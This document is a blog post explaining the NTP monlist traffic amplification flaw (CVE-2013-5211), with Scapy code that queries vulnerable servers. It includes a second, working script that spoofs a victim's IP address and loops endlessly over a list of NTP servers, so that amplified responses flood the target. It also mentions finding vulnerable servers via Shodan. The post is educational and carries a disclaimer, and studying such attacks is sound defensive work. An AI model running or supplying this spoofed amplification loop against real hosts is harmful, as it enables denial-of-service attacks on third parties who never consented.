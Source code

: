 ```yaml
---
title: "A look at NTP Traffic Amplification (CVE-2013-5211)"
date: 2019-10-20
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Network Security
  - NTP Amplification
  - Scapy
---
```


# Introduction
In a previous [post][dos], we had a look at some low-level DoS attacks. In this post, we will take a look at CVE-2013-5211, which uses vulnerable NTP servers to cause a DoS.

# NTP
The Network Time Protocol is a protocol designed to synchronize the clocks of computers over a network. This is the protocol that all your devices use to get the correct time for your timezone. 

In this post, we are concerned with the mode 7 packet, which is used for exchanging data between an NTP server and a client for purposes other than time synchronization, e.g., monitoring, statistics gathering, and configuration. It has the following format:

![NTP-Mode-7-Message-Format](../../assets/images/ntp-amplification/ntp_priv_format.png)

Some of the various request codes are:

1. REQ_PEER_LIST
2. REQ_PEER_STATS
3. REQ_CONFIG
4. REQ_MON_GETLIST_1 

# NTP Traffic Amplification
Of the various request codes, the ones I am interested in today is the *REQ_MON_GETLIST* or *REQ_MON_GETLIST_1*. 

Sending a request, with either of those codes, to a vulnerable NTP server will result in the server responding with the most recent interactions of it with the last 600 hosts. The responses include the IP addresses of hosts, source port used, NTP version, and the mode. 

This issue affects server versions before 4.2.7p26. To search for vulnerable servers, I looked up servers running ntpd 4.2.6 on shodan.

Now to test this, I have written the following python code, using the `NTPPrivate` class of scapy. 

```python
# Create the request
ip = IP(dst = ntp_ip)
udp = UDP(sport = RandShort(), dport = 123)
ntp = NTPPrivate(mode=7, implementation="XNTPD", request_code="REQ_MON_GETLIST_1")

# Send the request to the NTP server
packet = ip/udp/ntp
send(packet)
```

Running the above code and looking at the request and responses in Wireshark, we can see the following.

![requst-response-1](../../assets/images/ntp-amplification/req_resp_1.png)

There are two issues with this. The first being the information disclosure. Looking at one of the response, we can see the following details being disclosed. 

![requst-response-1](../../assets/images/ntp-amplification/disclosure.png)

The second issue is the size and number of returned packets. For one packet of length 50 sent by us, we received 27 packets, each of length 482. This is a clear amplification of the traffic. Attackers constantly look for such vulnerabilities while trying to DoS a target. 

To attack a target using this vulnerability, all the attacker has to do is send spoofed requests by changing the source IP address. All the responses are then sent to the target, which can overwhelm it. 

The above code can be modified in the following way to target hosts with an amplification attack.

```python
# Create the NTP request
ip = IP(src = g_target_ip)
udp = UDP(sport = RandShort(), dport = 123)
ntp = NTPPrivate(mode=7, implementation = "XNTPD", request_code="REQ_MON_GETLIST_1")

while True:
  # Send the request to each of the NTP servers
  for ntp_ip in g_ntp_servers:
    ip.dst = ntp_ip
    packet = ip/udp/ntp
    send(packet)
```

The code takes a list of vulnerable NTP servers, and continuously sends each one of them spoofed NTP requests. Now all the responses are received by the target instead of our machine.

That's it for this post. The entire script is available on my github [page][page].

# Disclaimer
The attacks mentioned on any of the posts on my website are to be tested at your own risk. Please do not use them without the permission of the target host. I will not be responsible for any damage caused by running them.  

[dos]: https://fsec404.github.io/blog/Introduction-to-a-few-network-attacks/
[page]: https://github.com/venkat-abhi/network-attacks/